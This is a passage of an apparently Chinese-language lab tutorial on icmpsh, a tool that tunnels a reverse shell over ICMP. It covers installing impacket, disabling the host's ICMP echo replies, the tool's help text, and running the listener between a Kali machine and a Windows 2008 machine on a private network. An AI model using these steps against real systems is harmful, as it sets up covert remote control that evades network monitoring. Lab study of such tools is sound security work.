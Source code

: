 使用icmpsh需要安装python的impacket类库，以便对于各种协议进行访问。

```
apt-get install python-impacket
```

但是这里是为python3安装的，所以还得安装一个 pip2 ，

```bash
wget https://bootstrap.pypa.io/2.6/get-pip.py

python2 get-pip.py

pip2 -V

pip2 install impacket
```

因为icmpsh工具要代替系统本身的ping命令的应答程序，所以需要输入如下命令来关闭本地系统的ICMP答应(如果要恢复系统答应，则设置为0)，否则Shell的运行会不稳定.

```bash
sysctl -w net.ipv4.icmp_echo_ignore_all=1
```

如果上述操作没做，就会报错。

[![r4plo8.md.png](https://s3.ax1x.com/2020/12/26/r4plo8.md.png)](https://imgchr.com/i/r4plo8)

icmp基本命令

```cmd
C:\Users\Administrator\Desktop>icmpsh.exe -H
unrecognized option --
icmpsh.exe [options] -t target
options:
  -t host            host ip address to send ping requests to
  -r                 send a single test icmp request and then quit
  -d milliseconds    delay between requests in milliseconds (default is 200)
  -o milliseconds    timeout in milliseconds
  -h                 this screen
  -b num             maximal number of blanks (unanswered icmp requests)
                     before quitting
  -s bytes           maximal data buffer size in bytes (default is 64 bytes)

In order to improve the speed, lower the delay (-d) between requests or
increase the size (-s) of the data buffer
```

实验环境：

虚拟机模拟公网，

kali: 192.168.2.148

win2008:  192.168.2.156

kali:

```bash
./run.sh

python2 icmpsh_m.py 192.168.2.148 .192.168.2.156
```
